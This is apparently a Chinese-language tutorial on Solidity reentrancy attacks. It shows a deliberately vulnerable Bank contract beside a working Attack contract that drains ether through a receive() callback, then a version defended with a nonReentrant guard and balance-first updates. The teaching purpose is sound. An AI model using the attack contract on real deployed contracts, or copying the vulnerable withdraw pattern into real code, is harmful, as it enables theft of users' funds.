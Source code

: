 #### 理解概念：
- "重入攻击"，顾名思义，重复执行逻辑而造成的攻击。
- 广义上，重入指的是，合约A在调用合约B时，合约B又回调合约A的某个函数。
- 即将讨论的示例，重入攻击，指的是"重复执行转账操作，而造成资金损失的攻击"。
- 我理解的攻击机制：利用合约函数对于"单次函数的调用"，没有进行"严格的开闭检查"，而达成的重复进入逻辑。


　

##### 攻击成功示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
    演示 重入攻击 - 成功
*/

contract Bank {
    mapping (address => uint256) public balanceOf;

    constructor() payable {}

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");

        // 转账 ether，完全不防范重入攻击，裸写转账
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");

        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的总余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```


　

##### 攻击失败(防御成功)的示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

/*
    演示 重入攻击 - 防御
*/

abstract contract ReentrancyGuard {
    uint256 private constant NOT_ENTERED = 1;
    uint256 private constant ENTERED = 2;

    uint256 private _status;

    error ReentrancyGuardReentrantCall();

    constructor() {
        _status = NOT_ENTERED;
    }

    modifier nonReentrant() {
        _nonReentrantBefore();
        _;
        _nonReentrantAfter();
    }

    function _nonReentrantBefore() private {
        if (_status == ENTERED) {
            revert ReentrancyGuardReentrantCall();
        }

        _status = ENTERED;
    }

    function _nonReentrantAfter() private {
        _status = NOT_ENTERED;
    }

    function _reentrancyGuardEntered() internal view returns (bool) {
        return _status == ENTERED;
    }
}

contract Bank is ReentrancyGuard {
    mapping (address => uint256) public balanceOf;

    constructor() payable {}    

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external nonReentrant {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");

        // 先更新余额
        balanceOf[msg.sender] = 0;

        // 转账 ether，此时，已经有防御了
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");
    }

    // 获取银行合约的总余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) payable {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```


　

#### 总结一下：
- 作恶者利用"银行合约"执行```msg.sender.call()```的时候，会重新回到"攻击合约"的```receive()```函数的机制，进而在```receive()```中编写"恶意代码"，最终达成重复进行"银行合约"执行转账行为。
- 防御原理：编写"禁止重入的修饰器"(```nonReentrant```)，且，规规矩矩提前执行```balanceOf[msg.sender] = 0```(其实，这也符合常见的商业逻辑执行顺序，"先扣用户的钱，再给用户提供利益")。
- 值得一提的是：在Solidity和以太坊智能合约中，没有传统意义上的多线程机制，而，所有的函数调用都在一个区块链网络的共识机制下顺序执行。
- 在作恶者"重入攻击"被成功防御的时候，remix测试层面上，会把错误最终体现在"最外围的异常"，也就是```msg.sender.call```的执行下一行，即```require(success, "Failed to send Ether")```；并没有直接在```revert ReentrancyGuardReentrantCall()```错误处异常哦。